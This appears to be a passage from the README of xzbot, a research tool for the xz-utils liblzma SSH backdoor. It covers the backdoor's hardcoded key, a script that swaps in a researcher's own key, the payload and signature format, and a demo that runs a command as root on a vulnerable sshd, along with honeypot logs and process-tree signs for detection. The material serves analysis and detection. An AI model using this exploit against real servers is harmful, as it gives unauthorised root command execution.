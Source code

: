 

Any connection attempt will appear as follows in sshd logs:
```
$ journalctl -u ssh-xzbot --since='1d ago' | grep xzbot:
Mar 30 00:00:00 honeypot sshd-xzbot[1234]: xzbot: magic 1 [preauth]
Mar 30 00:00:00 honeypot sshd-xzbot[1234]: xzbot: 010000000100000000000000000000005725B22ED2...
```

# ed448 patch

The backdoor uses a hardcoded ED448 public key for signature validation and
decrypting the payload. If we replace this key with our own, we can trigger
the backdoor.

The attacker's ED448 key is:
```
0a 31 fd 3b 2f 1f c6 92 92 68 32 52 c8 c1 ac 28
34 d1 f2 c9 75 c4 76 5e b1 f6 88 58 88 93 3e 48
10 0c b0 6c 3a be 14 ee 89 55 d2 45 00 c7 7f 6e
20 d3 2c 60 2b 2c 6d 31 00
```

We will replace this key with our own (generated with seed=0):
```
5b 3a fe 03 87 8a 49 b2 82 32 d4 f1 a4 42 ae bd
e1 09 f8 07 ac ef 7d fd 9a 7f 65 b9 62 fe 52 d6
54 73 12 ca ce cf f0 43 37 50 8f 9d 25 29 a8 f1
66 91 69 b2 1c 32 c4 80 00
```

To start, download a backdoored libxzma shared object, e.g.
from https://snapshot.debian.org/package/xz-utils/5.6.1-1.
Then run the patch script. See [assets/](assets/) for examples.

```
$ pip install pwntools
$ shasum -a 256 liblzma.so.5.6.1
605861f833fc181c7cdcabd5577ddb8989bea332648a8f498b4eef89b8f85ad4  liblzma.so.5.6.1
$ python3 patch.py liblzma.so.5.6.1
Patching func at offset: 0x24470
Generated patched so: liblzma.so.5.6.1.patch
```

Then run sshd using this modified `liblzma.so.5.6.1.patch` shared object.

## backdoor format

The backdoor can be triggered by connecting with an SSH certificate with a
payload in the CA signing key N value. This payload must be encrypted and
signed with the attacker's ED448 key.

The structure has the following format:
```
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|   a (32 bit)  |   b (32 bit)  |           c (64 bit)          |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
+                     ciphertext (240 bytes)                    +
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

A request type is derived from the three values above (`a * b + c`).
If this value is greater than 3, the backdoor skips processing.

* Type 1: unknown, expects zero bytes
* Type 2: executes null-terminated payload with system()
* Type 3: unknown, expects 48 bytes (signed)

The ciphertext is encrypted with chacha20 using the first 32 bytes of the
ED448 public key as a symmetric key. As a result, we can decrypt any
exploit attempt using the following key:
```
0a 31 fd 3b 2f 1f c6 92 92 68 32 52 c8 c1 ac 28
34 d1 f2 c9 75 c4 76 5e b1 f6 88 58 88 93 3e 48
```

The ciphertext has the following format:
```
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                    signature (114 bytes)                      |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| x (1 bit) |            unused ? (14 bit)          | y (1 bit) |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|        unknown (8 bit)        |         length (8 bit)        |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|        unknown (8 bit)        |         command \x00          |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

Setting either `x` or `y` leads to slightly different code paths.

The signature is an RFC-8032 ED448 signature computed over the following values:
* The 32-bit magic value (e.g. `02 00 00 00`)
* The 5 bytes of fields before command
* [optional] `length` bytes of the command
* The first 32 bytes of the sha256 hash of the server's hostkey

# backdoor demo

```
$ go install github.com/amlweems/xzbot@latest
```

```
$ xzbot -h
Usage of xzbot:
  -addr string
        ssh server address (default "127.0.0.1:2222")
  -seed string
        ed448 seed, must match xz backdoor key (default "0")
  -cmd string
        command to run via system() (default "id > /tmp/.xz")
```

The following will connect to a vulnerable SSH server at `127.0.0.1:2222` and
run the command `id > /tmp/.xz`:
```
$ xzbot -addr 127.0.0.1:2222 -cmd 'id > /tmp/.xz'
00000000  00 00 00 1c 73 73 68 2d  72 73 61 2d 63 65 72 74  |....ssh-rsa-cert|
00000010  2d 76 30 31 40 6f 70 65  6e 73 73 68 2e 63 6f 6d  |-v01@openssh.com|
00000020  00 00 00 00 00 00 00 03  01 00 01 00 00 01 01 01  |................|
00000030  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
...
00000150  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000160  00 00 01 14 00 00 00 07  73 73 68 2d 72 73 61 00  |........ssh-rsa.|
00000170  00 00 01 01 00 00 01 00  02 00 00 00 01 00 00 00  |................|
00000180  00 00 00 00 00 00 00 00  54 97 bc c5 ef 93 e4 24  |........T......$|
00000190  cf b1 57 57 59 85 52 fd  41 2a a5 54 9e aa c6 52  |..WWY.R.A*.T...R|
000001a0  58 64 a4 17 45 8a af 76  ce d2 e3 0b 7c bb 1f 29  |Xd..E..v....|..)|
000001b0  2b f0 38 45 3f 5e 00 f1  b0 00 15 84 e7 bc 10 1f  |+.8E?^..........|
000001c0  0f 5f 50 36 07 9f bd 07  05 77 5c 74 84 69 c9 7a  |._P6.....w\t.i.z|
000001d0  28 6b e8 16 aa 99 34 bf  9d c4 c4 5c b8 fd 4a 3c  |(k....4....\..J<|
000001e0  d8 2b 39 32 06 d9 4f a4  3a 00 d0 0b 0f a2 21 c0  |.+92..O.:.....!.|
000001f0  86 c3 c9 e2 e6 17 b4 a6  54 ba c3 a1 4c 40 91 be  |........T...L@..|
00000200  91 9a 2b f8 0b 18 61 1c  5e e1 e0 5b e8 00 00 00  |..+...a.^..[....|
00000210  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
...
00000260  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000270  00 00 00 00 00 00 00 00  00 00 00 10 00 00 00 07  |................|
00000280  73 73 68 2d 72 73 61 00  00 00 01 00              |ssh-rsa.....|
2024/03/30 00:00:00 ssh: handshake failed: EOF
```

On the vulnerable server, we can set a watchpoint for the call to `system()`
and observe the command is executed:
```
$ bpftrace -e 'watchpoint:0x07FFFF74B1995:8:x {
    printf("%s (%d): %s\n", comm, pid, str(uptr(reg("di"))))
}'
Attaching 1 probe...
sshd (1234): id > /tmp/.xz

$ cat /tmp/.xz
uid=0(root) gid=0(root) groups=0(root)
```

The process tree after exploitation looks different from a normal sshd
process tree:
```
# normal process tree
$ ssh foo@bar
$ ps -ef --forest
root         765       1  0 17:58 ?        00:00:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
root        1026     765  7 18:51 ?        00:00:00  \_ sshd: foo [priv]
foo         1050    1026  0 18:51 ?        00:00:00      \_ sshd: foo@pts/1
foo         1051    1050  0 18:51 pts/1    00:00:00          \_ -bash

# backdoor process tree
$ xzbot -cmd 'sleep 60'
$ ps -ef --forest
root         765       1  0 17:58 ?        00:00:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
root         941     765  4 18:04 ?        00:00:00  \_ sshd: root [priv]
sshd         942     941  0 18:04 ?        00:00:00      \_ sshd: root [net]
root         943     941  0 18:04 ?        00:00:00      \_ sh -c sleep 60
root         944     943  0 18:04 ?        00:00:00          \_ sleep 60
```
